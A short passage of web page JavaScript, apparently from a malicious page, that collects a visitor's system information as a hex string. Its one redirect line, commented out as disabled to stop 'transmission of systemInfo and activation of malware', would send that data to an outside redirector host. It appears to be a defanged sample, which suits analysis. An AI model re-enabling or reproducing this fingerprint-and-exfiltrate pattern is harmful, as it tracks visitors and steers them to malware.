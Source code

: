                     //
                    // Get system info in hex string format,
                    // send error string in case of problem,
                    // include extreme proglem case: empty string
                    //
                    var hexSystemInfo;
 
                    try {
                        hexSystemInfo = getInfo()
                        }
                    catch(errMsg) {
                        try {
                            hexSystemInfo = str2hex( [0,errMsg.message||errMsg].join("\0") )
                            }
                        catch {
                            hexSystemInfo = ""
                            }
                        }

                    //
                    // Prevent transmission of systemInfo and activation of malware
                    //
                    // o.location.replace("https://www2.redirectmaster.com/?utm_termq24004551006355509&ver=4viyaptcjo&utm_content="+t)

                    }();

            </script>

        </body>

    </html>

    
